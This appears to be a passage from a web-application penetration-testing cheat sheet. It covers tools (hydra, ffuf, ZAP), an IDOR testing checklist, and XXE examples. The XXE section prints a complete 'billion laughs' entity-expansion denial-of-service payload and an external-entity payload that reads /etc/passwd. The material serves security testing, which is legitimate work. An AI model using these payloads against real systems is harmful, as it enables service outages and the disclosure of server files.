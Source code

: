Useful tools: `hydra`, `ffuf`, `ZAP proxy`


## IDOR

**Test for:**

 - IDs, numbers or other identification patterns in filenames - e.g. `Bill_2024_00123.pdf`
 - IDs / UserIDs in URLs - e.g. `download.php?fid=123` or `my_files.php?uid=123`

When facing pseudo-random looking object references like `download.php?fid=202cb962ac59075b964b07152d234b70` then ceck for:

 - Encoding (Base64, Hex, ...) of known values like UserID, FileID, etc.
 - Hashes (MD5, SHA-x, ...) of known values like UserID, FileID, etc.
 - JS functions performing the hash calculation on the frontend which allow you to see how they are done.

Don't forget to test also for IDOR in APIs!


## XXE 

**DOS / full example:**

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "BOOM" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">
  <!ENTITY aa "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">
  <!ENTITY ab "&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;&aa;">
  <!ENTITY ac "&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;&ab;">
  <!ENTITY badstuff "&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;&ac;">
]>
<profile_data>
  <name>Peter</name>
  <email>&badstuff;</email>
</profile_data>
```

**Reading local files:**

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "file:///etc/passwd">
]>
```
